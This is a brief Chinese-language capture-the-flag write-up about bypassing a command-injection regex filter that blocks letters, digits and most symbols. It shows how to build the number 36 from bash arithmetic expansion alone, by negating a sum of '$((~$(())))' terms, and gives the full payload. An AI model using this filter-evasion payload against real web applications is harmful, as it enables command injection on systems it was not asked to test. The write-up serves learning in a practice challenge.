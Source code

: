 过滤了

```
"/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i"
```

但是分析代码，只要我们传入一个c=36就可以

构建36

```
$(())=0
对其进行取反
$((~$(())))=-1
构建出36，就是构建-37然后进行取反
$((~$((加上37个-1))))
$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))
))))=36
```

![image-20240120211436696](image/image-20240120211436696.png)
